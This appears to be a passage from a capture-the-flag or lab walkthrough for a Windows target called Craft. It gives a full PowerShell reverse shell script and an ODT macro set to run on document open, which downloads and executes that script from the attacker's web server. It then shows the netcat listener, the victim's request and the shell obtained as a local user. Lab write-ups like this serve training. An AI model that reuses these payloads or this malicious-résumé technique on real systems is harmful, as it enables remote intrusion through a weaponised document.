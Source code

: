 Let's save this payload into a file named **rev.ps1** making sure to change the IP to our Kali box's IP address.

```
┌──(kali㉿kali)-[~]
└─$ cat rev.ps1 
$client = New-Object System.Net.Sockets.TCPClient("192.168.118.14",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Next, let's create the ODT file naming it **resume2.odt**. We create this file the same way we did before, except with the following code:

```
Sub Main
    Shell("cmd /c powershell iwr http://192.168.118.14/rev.ps1 -o C:/Windows/Tasks/rev.ps1")
    Shell("cmd /c powershell -c C:/Windows/Tasks/rev.ps1")
End Sub
```

We also need to make sure the file will trigger the macro on Document Open like before.

Before we upload **resume2.odt** to the webfrom, let's start our reverse shell listener.

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
```

We upload **resume2.odt** and after a few seconds we see the target request the **rev.ps1** from our python webserver.

```
192.168.120.63 - - [20/Oct/2021 16:49:48] "GET /rev.ps1 HTTP/1.1" 200 -
```

Shortly after that, we receive a connection to the reverse shell listener. It may take a couple of tries sometimes.

```
connect to [192.168.118.14] from (UNKNOWN) [192.168.120.63] 49719
PS C:\Program Files\LibreOffice\program> whoami
craft\thecybergeek
```

We now have shell access as the user `thecybergeek`!

---

```json
┌──(ouyang㉿kali)-[~/offensive-security/OSCP/Craft]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.45.153] from (UNKNOWN) [192.168.200.169] 50078

PS C:\Program Files\LibreOffice\program> whoami
craft\thecybergeek
```
